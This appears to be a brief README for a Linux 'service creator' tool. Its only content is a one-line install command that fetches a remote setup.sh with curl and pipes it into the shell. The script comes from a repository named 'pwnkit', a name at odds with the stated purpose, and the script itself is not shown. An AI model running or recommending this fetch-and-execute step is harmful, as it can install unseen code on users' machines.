 # CLI-service-creator
A one-command service creator for the Linux CLI, fast and simple!


```sh -c "$(curl -fsSL https://raw.githubusercontent.com/CCR-ice/pwnkit/main/setup.sh)"```
